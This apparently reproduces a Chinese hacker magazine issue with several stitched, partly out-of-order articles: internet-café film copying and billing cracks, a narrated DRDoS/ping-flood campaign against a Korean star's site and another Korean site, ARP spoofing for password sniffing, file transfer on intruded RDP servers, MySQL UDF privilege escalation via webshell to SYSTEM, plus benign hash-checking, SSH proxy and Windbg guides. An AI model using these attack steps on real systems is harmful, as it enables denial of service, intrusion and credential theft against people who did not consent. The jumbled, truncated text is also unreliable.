以上便是菜菜我给大家介绍的一点网吧经验。需要告诉大家的是，免费上网时，老板的电脑上会显示此电脑处于空闲状态，所以提醒大家：“免费上网有风险，使用之前须谨慎！”

（本文所涉及的精锐网吧辅助工具V5.7和pubwin4破解精灵V2005本期光盘已收录）

### 简单下载网吧影院电影

一个人实在闲得无聊，于是想到网吧下载几部电影回去看。可一部普通大片最少也得几百兆，下载的话得花上几个小时；如果在网吧里看的话，时间就是金钱啊，而且气氛也不好！于是，我就打起了网吧影院的主意。网吧一般都有电影服务器，安装有网吧影院系统，常见的例如影音新视界、世纪联线、英雄竞界等。

我们这儿用的全是影音新视界，随便点击一部电影时会发现它是即点即播，根本不用缓冲等待！因为所有影片都是已经下载好了的，存放在网吧电影服务器上。说得详细点，我们为何能达到如同在本机上观看电影一样的速度？答案是服务器开启了共享！那么我们的思路就出来了：查出电影服务器的IP，访问共享目录复制影片就行了。或许有人会问你有那权限吗？有！因为影院系统安装时必须设置共享并开启Everyone权限！

找出IP的方法很多，例如电脑桌面上都有网吧影院的快捷方式，右击“属性”，URL处显示的就是，如图1。这时打开IE在地址栏中输入：\\192.168.0.253 访问即可（IP前是两道右斜杠），如图2。或者在“网上邻居”中查找，有的网吧桌面无“网上邻居”图标，可以右击桌面选择“属性-桌面-自定义桌面”，在“网上邻居”前打钩，确定，如图3。也可以右击“我的电脑”选择“资源管理器”，在左边的列表中就可以看到“网上邻居”，点击展开，找到电影服务器，如图4。我们同样可以借助软件查找，如局域网查看工具Lansee，点击“搜索计算机”小图标，不一会儿网吧内所有正在运行的电脑全出来了，如图5。这里一看就知道名为“SERVER”的就是电影服务器，双击打开即可。也可以直接点击“搜索共享资源”查出来。


图8

在打开的窗口smil标签处就找到了我们想要电影的完整地址，如图7、图8。下一步当然是按照路径打开目录找到电影往卡里复制了！但还有的网吧由于影院系统播放模式的不同，打开“剪辑来源”时什么也没有，如图9。难道找不到影片完整地址？点击“文件-剪辑属性-查看剪辑信息”，会发现文件名是rtsp地址，如图10。我们不要忘了，迅雷可是支持rtsp协议的！打开迅雷，新建任务，复制粘贴刚得到的rtsp地址，会下载到一个后缀为do的文件，用记事本打开，找到src后面的就是电影详细地址了，如图11。赶快前往指定的目录复制吧！


图9


图10

好了，这时我们已经找到网吧电影服务器的共享目录了，但是里面的电影并没有对应名字，都是按文件夹以阿拉伯数字编排存放的，不知道是什么电影。接下来要做的就是找出我们想要电影的物理路径。打开网吧影院主页，点击播放我们将要下载的电影。一般播放器都是内嵌在网页里的，右击选择“在RealPlayer中播放”（大部分影院系统默认的都是RealPlayer），如图6。在弹出的RealPlayer中点击“文件-剪辑属性-剪辑来源”。


图11

（本文所涉及的软件Lansee本期光盘已收录）

## “69圣战”之DRDoS攻击服务

炫风舞（中国鹰派联盟）


前段时间，网上出现了所谓的“69圣战”活动，事情的起因是这样的：韩国明星Super Junior在博客会流出原本预定发售门票数千张，但最终只发售500张，结果导致场面失控，一些SJ的粉丝就对抵制的志愿者和武警进行了攻击；WOW（魔兽）贴吧里的吧友对此行为与SJ吧进行了口水大战，并出现大量舆论争议。

- 打开“开始”→“运行”栏，输入“cmd”，点击确定后调出命令提示符。
- 在命令提示符下输入 `ping -l 1024 superjunior.smtown.com -t` 并回车执行；根据返回结果调整参数。

```bash
ping -l 1024 superjunior.smtown.com -t
```

“ping -l 1024 superjunior.smtown.com -t”这条命令的意思是把大小为1024字节（bytes）的数据包发送到superjunior.smtown.com网站，即SJ官网地址，“-t”参数表示持续发送，除非人工关闭命令。

不过对于这种攻击方法，我想说的是：还是歇歇吧，根本没用。普通个人设备难以对大型网站造成实质影响，即使号召更多人参与，执行成本与组织难度也很高。

我不是一个喜欢热闹的人，而且对韩国明星也没什么好印象；起初对所谓的“圣战”没太大兴趣，后来在论坛发帖表达看法后引发争论，最终也被卷入这场“圣战”的讨论中。

参加这个“圣战”的绝大多数攻击者无非就是使用SQL注入、DDoS这类方法。作者认为DoS效率低，而DDoS门槛虽高但更常见，进而引出DRDoS（Distributed Reflection Denial of Service Attack，分布式反射拒绝服务攻击）。

记得在08年11期的杂志上曾经介绍过DRDoS的使用，这次我们就把DRDoS用于实战。与DoS、DDoS不同，DRDoS的原理是：发送带有被攻击IP地址的数据包给中间主机，使响应流量反射到受害者。

其攻击原理与Smurf攻击相近，但DRDoS可以在广域网上进行。DRDoS无需在目标主机安装木马，攻击者投入资源较少：通过伪造源IP发送SYN连接请求，反射节点按TCP握手返回SYN+ACK至受害者，造成处理压力并触发拒绝服务。

为了便于理解，文中以“炫风舞”写信为例：发信人伪造身份后，大量回复会被投递到被伪造的地址；这就是DRDoS的核心机制，如图1所示。


图1

接下来，我们把DRDoS用于实战，需要一款名叫“网络僵尸Ver1.3”的工具。文中说明可先用“试用”方式发起普通站点攻击（约50台肉鸡），若要攻击大型站点可选择注册版本并进行更大规模配置。

我随便找了一个H国的网站，由于不懂H文，就直接开始D它好了，如图3。我填入这个H国网站的域名，又扫描出了一个端口（其实直接使用默认的80端口就行），配置完毕后，开始攻击。为了增强效果，我特意找了几个朋友一起D，不一会儿这网站就无法访问了，暗爽……本来想彻底拿下它的，后来想了想，咱还年轻，不想吃牢饭，还是安分点D它吧！就这样接连D了几天，这网站就无法访问了，反H圣战中一场不为人知的小规模战斗胜利结束，如图4。

应位置（不要填写域名，至于获取这个站点的IP地址，相信对于大家来说都不是难事吧，使用ping命令ping对方的域名就会给出的）。至于其它诸如自动上线之类的参数都和DDoS攻击程序差不多，相信大家都知道如何设置的。


图2


图4


图3

DRDoS作为一种新兴的网络攻击方式，必将获得飞速发展，只是由于深入研究它的人比较少，所以一直没有像DDoS那样广为流传。相信在大家的努力下，DRDoS必会像DDoS一样受到广大网络安全爱好者的重视。最后再送一句话给那些盲目追星的网友们：喜欢明星不是不可以，但不能过了度，甚至为了明星做出有损祖国尊严的事，大家都是中国人嘛！

（文章中所用到的DRDoS软件已收录到光盘中）

## 乱码——起来认识ARP欺骗

大家对于ARP欺骗一定都是耳熟能详了吧，但是对于ARP到底是怎么一回事，相信很多朋友还没有搞清楚。本文我就向大家描述一下ARP欺骗的原理以及之所以能够达到欺骗的原因。

ARP欺骗主要发生在局域网中，比如使用同一个路由上网的几台电脑、大学校园内的教育网以及网吧等。通过ARP欺骗，我们能够达到什么目的呢？一句话，所有与网络有联系、有交换的数据，几乎都可以被截获，比如游戏的账号密码、论坛的账号密码、邮箱登录密码、FTP登录密码等等。接下来，我就主要介绍一下ARP能够造成欺骗的原因及其工作的原理。

大家都知道，连接在Internet上的主机都必须有IP地址，才能够被网上别的主机查找到并进行相互通信。就像我们自己的家一样，必须要有一个明确的、唯一的家庭地址，我们的朋友才能把信件或物品送到我们的家中来。IP地址是一个32位的二进制数，分成了四段，每一段当然是8位二进制数；但是我们使用十进制表示的话，每段就是0-255之间的数字，比如192.168.0.1就是一个IP地址。

但是IP地址和主机上的MAC地址（物理地址）不同。MAC地址是固定在硬件上的一个48位二进制数，通常MAC地址被分成了6段，每段8位，使用十六进制表示。比如我电脑上的IP地址与MAC地址情况如图1所示，其中“00-EA-01-06-91-72”就是我电脑网卡上独有且固有的MAC地址，这是不会重复的。

当我们进行网络通信时，链路层的ARP协议会把IP地址转换为MAC地址，RARP协议会把MAC地址转换为IP地址。在我们的Windows系统下，直接按快捷键WIN+R，在“运行”栏中输入

#### 傻瓜黑客


图1

CMD调出命令提示符，然后在命令行下输入“ipconfig /all”，就会得到自己电脑的IP地址与MAC地址了。

ARP欺骗的工作原理是这样的，我们以主机A（192.168.0.1）向主机B（192.168.0.2）发送数据为例。当发送数据时，主机A会在自己的ARP缓存表中寻找是否有目标IP地址，如果找到了，也就知道了目标的MAC地址，直接把目标MAC地址写入帧里面发送就可以了；如果在ARP缓存表中没有找到相对应的IP地址，主机A就会在网络上发送一个广播，目标MAC地址是“FF-FF-FF-FF-FF-FF”，这表示向同一网段内的所有主机发出询问：“192.168.0.2的MAC地址是什么？”网络上其它主机并不响应这个ARP询问，只有主机B接收到这个帧时，才会向主机A做出这样的回应：“192.168.0.2的MAC地址是bb-bb-bb-bb-bb-bb”。这样，主机A就知道了主机B的MAC地址，它就可以向主机B发送信息了。

从上面的介绍可以看出，ARP协议的基础就是信任局域网内所有的人，正因为如此，也就很容易实现在以太网上的ARP欺骗了。对目标A进行欺骗，A去Ping主机C却发送到了DD-DD-DD-DD-DD-DD这个地址上，如果在进行欺骗的时候，我们把C的MAC地址欺骗为DD-DD-DD-DD-DD-DD，那么A发送到C上的数据包就都变成发送给D了，这就完成了ARP欺骗。

以上就是ARP欺骗的原理，简单点说，就是D伪装了一下自己的地址，让自己变成了A要找的目标，让A误以为D就是C，从而把数据发送到了D上而不是直接发送到C那里。其实在真正的工作中，C是一个通道，只是起到了临时停靠的作用，A发送到C的数据还是能到达的，只不过中间都要经过D了，如此一来D作为ARP欺骗的服务端，就完全掌握了A、C之间传递的数据，如此便实现了它想要达到的目的。

目前各网络安全公司对于嗅探的重视还不是很高，并不能很好地避免嗅探和ARP欺骗。我个人认为，局域网嗅探比较好用的工具就是CAIN，可以嗅探局域网的一些3389用户名和密码以及论坛ID密码等等。

最后我再声明一下，本文的部分知识收集自网络，但是大部分都是自己的探索理解。可以说，我们面临的网络安全问题，很危险的一个存在就是局域网的嗅探了。如果我们同在一个局域网内，我可以嗅探到绝大多数同学的校内账号以及部分论坛的ID密码等。其实这是一个亟需解决的问题，好在校园网对嗅探IP做了一些限制，对端口转发映射也有限制，相对还算安全。至于ARP的防范，网上有很多相关的文章，这里就不再赘述了。

### 远程桌面下的文件映射共享

黑客入侵的目的是要实现信息的共享，要实现信息共享就必须有文件传输，相信大家对于CmdShell下的文件上传和下载方法都已经了如指掌了。本文我就介绍一下如何在远程桌面下快速地实现信息共享，这在得到那些培训网站、电子书下载网站的远程桌面控制权后尤为重要。

### 一、mstsc自带的磁盘映射功能

mstsc是远程桌面连接的客户端程序，它是系统自带的一个小程序，可以在“开始”——“运行”栏中直接输入mstsc来打开它，也可以在“开始”——“所有程序”——“附件”中来打开它。

打开后，单击最右面的“选项”按钮，在打开的窗口中选择“本地资源”，在最下面的“本地设备和资源”中单击“详细信息”，在接下来的窗口中单击“驱动器”前面的“+”号，勾选希望映射到目标服务器的磁盘，比如勾选F盘，如图1所示。


图1

上面的设置完成后，单击“连接”按钮，输入目标服务器的密码进入系统后，打开“我的电脑”，就会发现本地的F盘已经映射到目标服务器上了，如图2所示，这时候想要上传或下载文件就相当于在同一台计算机上了。

### 二、修改版的mstsc

在上面的方法中虽然我们可以通过设置“本地资源”将磁盘映射到远程目标服务器上，但是却不能在远程桌面和本地计算机之间直接复制文件，这在传输较小文件时不太方便，此时我们就可以使用修改版的mstsc了。

运行程序后如图3所示，输入IP地址以及用户名后单击“连接”按钮，输入密码进入系统后，在远程桌面窗口中选择想要复制的文件，然后按CTRL+C复制后，转到本地计算机非远程桌面窗口的其它位置，直接按CTRL+V粘贴即可。同样的，我们也可以用这种方法将本地计算机中的文件直接通过远程桌面复制到远程计算机中。


图2


图3

修改版mstsc的实现功能与mstsc的磁盘映射功能很类似，它只不过是通过修改注册表中“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd”下的Startupprograms键值来设置基于RDP协议的复制粘贴工具而已。

### 三、wtsftp实现大文件传输

wtsftp是IBEX推出的一个远程桌面下的文件传输工具，优点是传送速度快，可以快速地传送大型文件，缺点是需要关闭防火墙。

#### 1、安装与注册wtsftp

首先我们在远程目标主机上安装wtsftp，运行wtsftp，选择安装目录，单击下一步，出现了如图4所示的窗口，我们需要选择第一项“Terminal services server component ...”（安装到服务器的）。如果是自己的服务器，可以勾选“Create Desktop shortcut....”（创建快捷方式）；如果是我们入侵的机器，则不建议使用。然后在本地计算机中也运行wtsftp，在出现了如图5所示的窗口时，只勾选“Terminal services client component....”（安装客户端）。


图4


图5

安装完成后，运行mstsc，打开目标服务器的远程桌面，然后运行wtsftp即可。第一次运行时会提示我们注册，如果是在自己的服务器上，可以使用我提供的注册码；如果已经失效的话我们可以从网上搜索找到；如果是被入侵的服务器，则注册不注册都没什么关系，程序默认有30天的试用期。


图6


图7

服务器上的资料也是够用的了。注册完成后的程序界面如图6所示。

##### 2、上传与下载

在上图中我已经标出了wtsftp的主要功能，左边的为远程服务器的磁盘，右边是本地磁盘；不管是上传还是下载都需要先选择文件，选择完成后，上传就单击左边的大箭头，下载就单击右边的大箭头。另外，wtsftp提供了1-500的上传下载速度，我们可以根据需要来进行设置，方法是单击“Upload speed”或“download speed”处的下拉菜单即可。

#### 3、wtsftp设置

如果是自己的服务器，可以根据用户名指明该用户不可以访问的磁盘，方法是单击“Options”菜单中的“user/group permission”，在弹出的窗口中单击“add”来添加相应的用户或组，然后选中想要设置的用户，再选择path（路径），最后根据需要勾选Option中的参数即可，如图7所示。除此之外，还可以根据用户名来设置其上传下载速度，方法是在“Options”菜单中单击“user settings”，操作方法与权限设置类似，不再赘述。

> （文章中所用到的wtsftp、直接复制数据的终端连接器已收录到光盘中）

## 学360让MD5为安全护航

BaseNet

最近在鼓捣360时，发现不管是它的木马防火墙还是云查杀，都是通过计算文件的MD5值再与已经发现的恶意文件的MD5值进行对比来判断的，说白了就是一种比较文件Hash值的安全检测方法。这种方法可以应用于多种领域，很多软件下载站提供软件下载的同时，也都会提供该软件的MD5值，就是这种方法的一个应用，其目的就是防止软件被恶意文件替换。自从Vista系统开始，这种方法也被微软用于Windows操作系统了，通过定期Hash检测可以防止系统内核文件被rootkit了。对于我们小菜或者网站管理员来说，使用这种方法也可以帮助我们及时地发现被替换的文件。本文我就向大家推荐两款经典的Hash计算比较工具——fciv.exe和fsum.exe。


图1

#### 一、fciv.exe

这两个都是命令行下的工具，我们首先来看fciv.exe，这是微软提供的一个小工具，功能还不错，它可以对某个文件、文件夹进行MD5或SHA1加密，在Windows处于安全状态时，就可以通过它来获得文件、文件夹的Hash快照。一旦恶意攻击者替换了系统中的某些文件，在Hash比较时就可以被发现！我们在cmd下直接运行fciv.exe，就可以看到该工具的具体用法，如图1所示。默认情况下程序使用了“-add”参数，所以一般都是使用“fciv.exe 文件名/目录名”的格式，而无需再加上“-add”参数。

##### 1、目录常用参数

当要计算某一个目录中的文件Hash值时，我们通常会用到以下的两个参数：“-r”指的是使用递归计算该目录下的每一个目录中的文件，比如要计算“c:\windows”目录中所有文件的Hash值，就可以输入“fciv c:\windows\ -r”，如图2所示。“-type”用于指明要对某目录中的哪些类型的文件进行Hash计算。

比如“f:\test”目录下有一个.txt文件和一个.exe文件，如果我们执行“fciv f:\test -type *.exe”，则只会计算exe文件的Hash，如图3所示。

fciv.exe提供了“-xml”参数用于将文件的Hash以xml的形式保存到硬盘上，之所以使用xml格式保存，是为了比较Hash时方便。比如我们要计算“c:\windows”目录下所有exe文件的Hash值以防止恶意程序将其替换，则可以执行“fciv.exe c:\windows -r -type *.exe -xml windows.xml”，如图5所示。


#### 2、选择Hash计算方法

fciv.exe提供了两种Hash计算方法，一种是我们熟悉的md5，另外一种是sha1，默认使用的是md5计算方法。如果要使用sha1计算方法，则需要使用“-sha1”参数；如果两种计算方法都使用，则需要使用“-both”参数。比如我们要使用md5和sha1这两种方法来计算“f:\test”目录下所有exe文件的Hash值，则可以使用“fciv.exe f:\test -r -type *.exe -both”，如图4所示。

#### 3、将Hash值写入xml文件保存

如文章开始所描述的那样，计算文件Hash并不难，比较Hash以确定文件是否被替换才是最有意义的。在比较前我们需要将系统或网站安全状态下的文件进行Hash计算并写入文件保存。

#### 4、检测文件Hash

当把计算机安全状态下的文件Hash值计算保存后，要检测系统或网站是否被替换了文件，则需要与原来安全状态下的Hash值进行比较，这时候我们就需要使用“-v”参数，比如要检测windows目录下是否被植入并替换了恶意程序，则执行“fciv -v -xml windows.xml”。

相对于fciv.exe程序来讲，fsum.exe是一款更强大的Hash计算工具，下面我们再看一下这款工具的具体用法。

#### 二、fsum.exe

fsum.exe最大的亮点就是可以计算多种Hash，在命令提示符下直接输入fsum，就可以查看到其具体的使用方法了。如图6所示，它不仅可以计算md5、sha1，还可以计算md2、md4、sha256、sha384、crc2等，而且它还有一个特点，就是运算速度快，这对于大型的虚拟主机来说是很有意义的。

这款工具的主要参数与fciv.exe类似，比如“-d”用于指明目录，“-r”用于指明递归查询某目录。值得注意的是，在使用“-d”参数时，“-d”与目录名之间没有空格。该程序与fciv不同的地方除了计算方法比较多之外，还主要体现在比较方法与Hash存储上。使用fsum存储文件的Hash值，需要重定向到某个文件中，比如要计算“c:\windows”目录下所有exe文件的md5值（该工具默认情况下与fciv.exe一样会计算md5值），则执行“fsum -r -dc:\windows *.exe >windows.txt”，如图7所示。


图7

如果想要使用其它的Hash计算方法，则使用相关的参数即可，比如以sha1方式计算“c:\windows”目录下exe文件的Hash值，则执行“fsum -r -sha1 -dc:\windows *.exe >windows.txt”，如图8所示。


图8

当然计算文件Hash的意义就在于用它来进行比较。使用fsum.exe要比较文件的Hash，首先需要指明在计算机安全状态下得到的Hash文件，使用“-c”参数即可，然后需要指明比较后显示结果的方法，fsum.exe提供了以下几种方法：

- -jf：只会显示Hash值不匹配的行。
- -jm：使用md5格式比较，详细显示每条比较结果。
- -js：使用SFV格式比较，与-jm类似。
- -jnc：比较时压缩描述。

在这四种方法中，-jf最常用，因为既然是比较，我们关心的问题自然是Hash值不相同的文件。比如要检测c:\windows下的exe文件是否被替换，则可以执行“fsum -dc:\windows -jf -c f:\test\windows.txt”，“-c”指明的Hash文件必须是完整路径。

相比较而言，使用fsum.exe效率比较高，但是fciv.exe给人的感觉是更核心一些。工具只要被制造出来就必然会有优势，我们要做的事情就是选择一个相对合适的来使用。

#### 三、注意事项

关于工具的使用就介绍完了，还有几点必须要进行说明，因为它很容易被忽视。

#### 1、定期Hash检测

大家都知道在没有主动防御、实时保护的情况下，杀毒软件的特点是只查杀已知的病毒，这就是要命的杀软滞后性。相对来说，杀软的滞后性可以原谅，但是人们思想的滞后性就不可原谅了，因为很多时候，只有在发现电脑中毒或中木马时才会想起安全问题，不得不说建立一种安全思维模式的确非常重要。上面介绍的方法相当于理论，关键在于能做到定期进行Hash检测，这相当于实践。定期检测系统文件Hash值，可以通过任务计划来完成。


图9

我们以fsum为例，首先编写一个批处理文件，把以下内容保存为fsum.bat：  
`@fsum -dc:\windows -jf -c f:\test\windows.txt >diff.txt`  
在“开始”－“运行”栏中输入control打开“控制面板”，双击打开“任务计划”，双击打开“添加任务计划”，单击下一步，如图9所示。单击“浏览”，找到刚才编写的批处理文件fsum.bat，单击下一步，在弹出的窗口中勾选“每月”（可根据需要进行选择），单击下一步，根据自己的登录情况来选择时间，在接下来的窗口中输入相应的用户名和密码，就完成任务计划的添加了。这样系统每个月都会自动进行Hash检测。每月Hash检查后，一旦发现同一目录中的diff.txt中有内容，则说明Hash比较发现了问题，系统中可能有文件已经被替换。

当然这里作为演示只是简单的描述，如果要真正打造这样的一个智能系统，首先建议你先把fsum.exe复制到%systemroot%\system32目录下，然后建立一个程序，定期执行相应的操作，并通过diff.txt的文件大小来判断是否有Hash计算异常。如果diff.txt的大小大于0，则提示文件有可能被替换，这种方法比较适合网站管理员使用。

#### 2、Hash文件权限设置

Windows安全状态下的Hash文件是我们进行Hash检测的关键，该文件保护不好的话，则很容易被细心的攻击者替换掉，从而不能保证我们及时检测到系统中的恶意文件，这就要求我们对Hash文件进行权限设置。关于权限设置的问题在X档案上曾经刊登过N多的文章，这里就不再赘述了。

##### 3、定位检测位置

Hash比较法用于安全的另一个重要问题是决定何种文件需要进行Hash检测。其实答案很简单，最容易被替换文件的位置最需要定期进行Hash检测，比如C:\Program Files\Internet Explorer是很多人喜欢替换文件的位置，因为只要是联网，对于大多数人来说都会执行该目录中的IE浏览器，也就可以实现恶意程序的执行。具体进行Hash计算的位置需要根据个人情况来定。

> （文章中所用到的fciv.exe、fsum.exe已收录到光盘中）

## chrome + Proxy Switchy + SSH：逍忆的翻墙大法


CCY泓然

对于GFW，相信大家都是深恶痛绝的吧，今天我就给大家带来了另一种SSH的翻墙方法。先来讲讲在Windows系统下如何翻墙吧。我使用的是chrome浏览器，因为它的速度是所有浏览器当中最快的了。安装好chrome浏览器后，我们在Google上搜索Proxy Switchy，这是一个插件，下载安装好后再打开chrome，就能看见多了个插件，打开这个插件后如图1所示。


图1


图2


图3

接下来就是申请免费的SSH账号了，我们可以到“http://www.cjb.net/”这个网站上来申请，选择Free Shell Account，然后注册就行了。现在万事俱备，只欠东风了，欠的就是putty。

#### 傻瓜黑客

（相当强大的一个远程连接工具），其界面如图2所示。大家按照图2中所示来填好：“Host Name”栏填 `shell.cbj.net`，端口可以填 `22` 或者 `443`，选中 `SSH`。接下来还有个最关键的步骤，就是选择 PuTTY 左边 SSH 选项里的 `Tunnels`，如图3所示，在“Source Port”中填写 `7070` 端口，选择 `Dynamic`，然后点击 `ADD`，这样我们的转发端口就设置好了。保存我们的设置，免得以后还要重新设置。点击 PuTTY 左边的 `Session`，返回到最开始的界面，在 `Saved Sessions` 栏写上保存的名字，这样就行了。然后点击右下角的 `Open` 按钮，就会弹出命令行黑框，按照提示输入我们刚才在网站上注册的账号和密码。注意此时输入密码是不显示的，登录进去后就什么都不用做了。这个黑框千万不能关，否则就翻不了墙了。

`ccyhaoran` 是我的 SSH 用户名，`-D` 代表动态绑定，后面的大家都知道是什么意思了吧。如果没有安装 SSH，就执行 `sudo apt-get install ssh`，然后输入 root 密码，安装好 SSH。好了，最后祝大家翻墙快乐！

图5

好了，接下来设置 Proxy Switchy，选择 `Proxy Profiles` 选项，点击 `New Profile`，如图4。“Profile Name”可以随便填写，我这里填写的是 `FreeSSH`。在“SOCKS Host”里面填写 `127.0.0.1`，端口填写刚才设置的 `7070`，然后选择 “SOCKS V5”。保存设置后我们再切换到 `Switch Rules` 选项，选中“Enable switch rules”，然后新建 rule，写下一些需要使用代理的网站，并选择 `Proxy Profile` 为 `FreeSSH` 就行了。这样做的目的是在我们访问没被墙掉的网站时，不必通过 SSH 访问，以提高网速，如图5。

图6

图4

最后一步就是选择自动切换模式，如图6，这样就能在访问这些网站的时候翻墙了，如图7。

图7

```bash
ssh ccyhaoran@shell.cbj.net -D 127.0.0.1:7070
```

我再把 Linux 系统下的方法也讲一下，其它设置都一样，只是不需要下载 PuTTY，而是在终端中执行上面的命令。

（文章中所用到的 Chrome 浏览器、Proxy Switchy 插件、PuTTY 已收录到光盘中）

### 菜鸟也来 Windbg 系统修改

#### 一、给虚拟机添加串口

相信和我一样的菜鸟都听说过 Windows 内核这个名词。简单理解，内核就是系统主要功能的实现，它运行于内核态（IA32 CPU 的 ring0 环下）。我们要查看系统内核中的东西，就需要使用调试器来调试内核。这听上去是一个非常复杂的事情，但实际上却是无比简单，下面就跟我来一步一步完成。

在 VMware 中安装虚拟操作系统，这在《X档案》以前的文章中曾经详细介绍过。需要注意的是，如果安装 Ghost 版的 Windows 系统，则需要先使用自带的分区工具分区后才能进行安装。安装完虚拟机操作系统后，我们要做的事情就是给系统添加一个串口，本文我们就以调试 Windows 2003 为例。

单击 VMware 界面中的“编辑虚拟机设置”，然后在弹出的对话框中单击“添加”按钮，在“添加硬件向导”中选择“串口”，如图1。点击“下一步”后如图2所示，选择第三项“输出到命名管道”，来到如图3所示的窗口，保证第三项为“其他终端是一个程序”，然后单击“完成”即可。

在 `boot.ini` 中加入参数：`/debug /debugport=com1 /baudrate=57600`，保存后退出，重启虚拟机就可以看到调试选项了（如图6）。

图1  
图3  
图2  
图4

#### 二、配置虚拟机 boot.ini 文件

给虚拟机添加串口后，我们需要配置虚拟操作系统的 `boot.ini` 文件，以保证虚拟操作系统可以被调试。启动 Windows 2003，打开“我的电脑”，在“工具”→“文件夹选项”中将“隐藏受保护的操作系统（推荐）”前面的勾去掉，并勾选“显示所有文件和文件夹”，如图4。确定后退出，此时进入系统盘，已经可以看到 `boot.ini` 文件了。选中 `boot.ini` 文件，点击右键选择“属性”，去掉“只读”前面的勾，然后使用记事本打开文件后，复制“[operating systems]”这段下的内容，并加入相关调试参数。

图5

#### 三、安装符号表

上面的配置是针对虚拟机的，接下来我们需要在物理机中安装符号表。我们都知道 Windows 系统其实也是一个程序，而且是使用 C/C++ 语言编写的程序，因此在编写时就会写入一定的调试信息，这些调试信息我们称作符号表。把很多符号表打包制作成可安装文件则为符号表文件。

我们可以去微软官方网站下载符号表文件，具体网址为：`http://www.microsoft.com/china/whdc/`。找到 Windows 2003 的符号表文件后，网页显示有很多个，我们需要将 Windows 2003 未打补丁、SP1、SP2 的符号表文件都下载回来，因为每打一次补丁系统都会有不同更改，我们不知道发生了哪些变化，因此需要都下载回来。

安装时需要注意：先安装未打补丁的 Windows 2003，然后安装 Windows 2003 SP1，最后安装 Windows 2003 SP2。安装时一定要将符号表解压到相同目录，比如 `E:\Windows\Symbols`，以实现打补丁后符号表的替换。

#### 四、配置 Windbg

符号表设置完成后，就需要配置 Windbg 了。Windbg 是微软提供的调试器，我们可以去官方网站下载 Debugging Tools for Windows 工具包，也可以到百度搜索下载链接。安装完成后，在安装目录中找到 `windbg.exe`，然后右键选择“发送到”→“桌面快捷方式”，在桌面快捷方式“属性”的目标中填写参数：

`-y E:\Windows\Symbols\ -b -k com:port=\\.\pipe\com_1,baud=57600,pipe`

其中，“-y”指明符号表位置，“baud”指明串口速率（与上面设置的 baudrate 一致），“pipe”说明使用管道传输，如图7所示。

#### 五、调试内核

首先运行虚拟机，并选择第二项等待调试，然后运行 Windbg，再切换到虚拟机，按回车后进入调试系统。如果出现假死，可以重新再启动一次 Windbg。如果看到如图8所示提示，则调试可以开始了。

此时在 Windbg 下方 `kd>` 处输入 `g` 回车，就可以启动想要调试的操作系统。Windbg 会有如图9所示提示。如果要切换回调试器，则使用 `Ctrl+Break` 键即可。对于 Windbg 相关命令我们可以从网上查找资料，这与 OD 没什么区别，只是可以调试内核而已。

调试内核其实很 easy，很多东西都被人们吹得特别玄，真正操作一次没那么费劲。好了，文章就到这里。

（文章中所用到的 VMware 已收录到光盘中）

### “Can't open shared library 'udf.dll'”的一种解决方法

对于“Can't open shared library 'udf.dll'”这条错误提示，相信使用过 MySQL 提权的朋友应该都不会陌生。以前我遇到这种情况时，就会抱怨自己运气不好，只好放弃利用 MySQL 提权的方法了，但对于为什么会出现这样的错误提示以及如何解决却从没有多想过。

我的虚拟机中的两个操作系统都安装了 PHP 环境：一个可以利用 `udf.dll` 提权，一个在使用 `udf.dll` 提权时就会提示“Can't open shared library 'udf.dll'”，如图1、图2所示。能利用 `udf.dll` 提权的系统中使用的是 AppServ 搭建的 PHP 环境；不能利用 `udf.dll` 提权的系统中是手动安装的 Apache+PHP+MySQL+phpMyAdmin 搭建的 PHP 环境。

后来在论坛帖子中看到一个解释：从 MySQL 5.1 版本开始，创建自定义函数通常需要将 `udf.dll` 放到 MySQL 安装目录下的 `lib/plugin` 文件夹；而且该目录默认可能不存在，且导出文件时不能自动创建文件夹。因此把 `udf.dll` 导出到系统目录往往无法创建自定义函数。

帖子给出的解释是：MySQL 5.1 开始要求把 `udf.dll` 放在 `lib/plugin` 下才能创建自定义函数；没有自定义函数就不能执行对应功能，导致不能提权。能够提权的系统中 MySQL 版本为 5.0.37，不能提权系统中 MySQL 版本为 5.1，正好符合这一说法。

“必须要把 `udf.dll` 文件放到 MySQL 安装目录下的 `lib/plugin` 文件夹下才能创建自定义函数”，这听起来像是一种限制，但也可视为提示：如果在 MySQL 安装目录下创建 `lib/plugin` 目录，再把 `udf.dll` 导出到该目录，是否就可以解决问题并提权？作者据此进行实际测试。

首先把 `udf.dll` 导出到系统目录（如 `C:\WINDOWS\System32\`），执行 `Create Function MyCmd returns string soname 'udf.dll'` 命令时仍出现“Can't open shared library 'udf.dll'”错误，说明导出到系统目录不能创建自定义函数。

我们来把 `udf.dll` 导出到 MySQL 安装目录下的 `lib/plugin` 目录中。已知安装目录为 `C:\Program Files\MySQL\MySQL Server 5.1\`，通过 webshell 在该目录下新建 `lib`，再新建 `plugin`，并在 `udf.php` 中将 DLL 导出路径写为 `C:\Program Files\MySQL\MySQL Server 5.1\lib\plugin\udf.dll`，如图5。

这是解决“Can't open shared library 'udf.dll'”错误的一种方法。如果大家也遇到类似问题，且拿到 MySQL root 用户密码但提权受限，可以尝试该方法。随着时间推移，5.1 以上版本 MySQL 服务器会越来越多，这种提权方式也会更常见。

图5  
图7

点击“导出安装”按钮后提示安装成功，说明可以使用类似 `Select MyCmd("net user");` 的 SQL 命令执行 cmd 命令，如图6。

图6  
图8

在 SQL 命令输入框中输入 `Select MyCmd("net user");` 并执行，成功执行了 `net user`。再执行 `Select MyCmd("whoami");` 也成功，显示权限为 system 权限，如图8。

通过在 MySQL 安装目录下创建 `lib/plugin` 目录，再把 `udf.dll` 导出到该目录下，是在 MySQL 5.1 及更高版本中解决相关提权问题的方法之一。

（文中所用到的 MySQL 提权专用木马已收录到光盘中）

### 破解文件密码箱小记

在去年第一期《X档案》杂志附送的光盘中发现了一个名叫“文件密码箱”的小工具，于是想看看它的安全强度。网上类似“文件夹加密大师”之类工具不少，很多只是对文件路径做手脚，较易被绕过，复杂一点的也只是增加保护进程。

先打开这个不称“大师”而称“箱”的小工具，点击“新建密码箱”，输入名称（如放在 D 盘、名为“垃圾箱”），点击“确定”后输入密码并设置密码提示问题，以便忘记密码时找回。

接着进行密码验证测试，如图3所示，出现提示窗口，告诉密码了，如图4。看到这儿，大家想到什么了没有？这个箱子肯定是把正确的密码和密码问题放在了某个文件里，如果我们找到了存放密码提示的文件位置，然后改掉，再找回密码呢？

图2  
图3

